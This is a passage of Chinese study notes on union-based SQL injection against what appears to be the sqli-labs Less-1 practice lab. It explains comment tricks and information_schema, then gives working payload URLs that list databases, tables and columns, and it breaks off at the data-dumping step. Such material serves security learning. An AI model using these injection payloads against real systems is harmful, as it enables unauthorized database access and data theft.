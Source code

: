 此处的`--`为注释，+为占位，也可以通过%20(空格的URL编码)来替代，因为地址栏空格不会进入mysql语句，或者可以直接用%23（#）进行注释，或者使用单双引号本身来进行闭合操作

## Information_schema

### 三个常用表

#### Schemata

SCHEMA_NAME:数据库名

#### tables

TABLE_SCHEMA:数据库名

TABLE_NAME:表名

#### columns

TABLE_SCHEMA:数据库名

TABLE_NAME:表名

COLUMN_NAME:字段名

## 爆数据库(schemata)

```sql
http://192.168.154.131/sqli/Less-1/?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata--+
```

数据库名.表名：information_schema.schemata

## 爆表名(tables)

```sql
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+
```

where 之后的条件用来筛选选中的数据库

table_schema为数据库名

table_name为表名

## 爆字段(columns)

```sql
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+
```

## 爆数据
